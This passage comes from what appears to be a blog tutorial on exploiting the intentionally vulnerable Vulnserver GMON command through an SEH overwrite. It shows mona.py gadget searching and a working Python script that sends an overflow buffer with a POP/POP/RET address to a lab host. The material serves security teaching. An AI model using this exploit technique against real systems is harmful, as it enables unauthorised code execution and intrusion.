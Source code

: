 This will tell `mona.py` to find `POP/POP/RET` instruction sequences and
omit addresses with null characters (`-cp nonull`), omit addresses on
modules compiled with `SafeSEH` (`-cm safeseh=off`), and omit addresses
on modules of the `OS` (`-o`).

<div class="imgblock">

![POP POP RET](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331142/blog/vulnserver-gmon/mona1_gzwngq.webp)

</div>

And we got 12 different options. We can choose any of those. I will
choose the sequence at `625011FB` just because :)

We can now update our exploit with that address:

``` python
import socket
import struct

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'GMON /.:/' +
    b'A' * 3551 +
    # 625011FB    58                          POP EAX
    # 625011FC    5A                          POP EDX
    # 625011FD    C3                          RETN
    struct.pack('<L', 0x625011FB) +
    b'C' * 1445
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
```

And run it:

<div class="imgblock">

![POP POP RET](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331143/blog/vulnserver-gmon/popret1_xnh1tf.gif)

</div>

Weeeeeeeh\! We overwrote the `SEH` handler, triggered the exception, and
redirected to a `POP/POP/RET` sequence that returned to our controlled
buffer\!

However…​\!

We landed only 4 bytes before our injected `POP/POP/RET` address.
Remember the `_EXCEPTION_REGISTRATION_RECORD` structure? It has 2
members: the `SEH` handler, which we are overwriting with the
`POP/POP/RET` address, and the pointer to the next exception handler,
also called `nSEH`. Well, we landed at `nSEH`.
